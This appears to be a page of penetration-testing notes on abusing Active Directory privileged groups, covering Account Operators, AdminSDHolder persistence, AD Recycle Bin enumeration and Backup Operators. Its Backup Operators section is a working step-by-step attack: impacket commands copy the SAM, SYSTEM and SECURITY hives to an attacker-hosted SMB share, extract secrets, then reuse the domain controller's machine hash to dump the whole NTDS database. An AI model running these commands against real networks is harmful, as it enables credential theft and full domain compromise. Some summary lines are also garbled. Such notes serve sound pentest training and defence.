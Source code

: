 *Account Operators* group can edit the members of a lots of domain group, except for administrative groups. However, it is able to modify the *Server Operators* group.

To summarize:
- allow creation of not accounts and groups administrative groups
- allow locally login at DC

*"This group is considered a service administrator group because it can modify Server Operators, which in turn can modify domain controller settings. As a best practice, leave the membership of this group empty, and do not use it for any delegated administration. This group cannot be renamed, deleted, or moved."*

### AdminSDHolder

The ACLs of the **AdminSDHolder** object are used as templates to copy permissions to all 'protected groups' in AD and their members. The 'protected groups' include privileged groups such as *Domain Admins*, *Administrators*, *Enterprise Admins* and *Schema Admins*.

It is used mostly for persistance.

### ADRecycleBin

This group has privileges to read deleted AD objects. Interesting information can be found.

```shell
#This isn't a powerview command, it's a feature from the AD management powershell module of Microsoft
#You need to be in the "AD Recycle Bin" group of the AD to list the deleted AD objects
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
```

### BackupOperators

Members of this group can backup and restore of files in DC (they can also log in). This could result in the modification of files in the DC. 

#### by impacket

**Steps**:
1. SMB server setup - it is used for receive files:
	- `python3 smbserver.py -smb2support "pabloshare" </PATH/TO/OUTPUT_DIR>`
2. remotely backup of SAM, SYSTEM e SECURITY hives:
	- `python3 reg.py <DOMAIN NAME>/'<USERNAME>:<PASSWORD>'@<IP DC> backup -o '\\<IP ATTACKER>\pabloshare'`
		- alternatives:
			- `python3 reg.py <DOMAIN NAME>/'<USERNAME>:<PASSWORD>'@<IP DC> save -keyName 'HKLM\SAM' -o '\\<IP ATTACKER>\pabloshare'`
			- `python3 reg.py <DOMAIN NAME>/'<USERNAME>:<PASSWORD>'@<IP DC> -keyName 'HKLM\SYSTEM' -o '\\<IP ATTACKER>\pabloshare'`
			- `python3 reg.py <DOMAIN NAME>/'<USERNAME>:<PASSWORD>'@<IP DC> -keyName 'HKLM\SECURITY' -o '\\<IP ATTACKER>\pabloshare'`
3. *secrets* dump:
	- `python3 secretsdump.py -sam </PATH/TO/SAM> -security </PATH/TO/SECURITY> -system </PATH/TO/SYSTEM> LOCAL`
4. abuse - use the computer account credentials of the DC (NT hash in `$MACHINE.ACC`)
	- *psexec* or *evilWinRM* to access to the DC
	- *secretsdump* for dumping of whole database NTDS
		- `python3 examples/secretsdump.py '<DOMAIN NAME>/<HOSTNAME DC>$'@<IP DC> -hashes <LM HASH $MACHINE.ACC>:<NT HASH $MACHINE.ACC>`
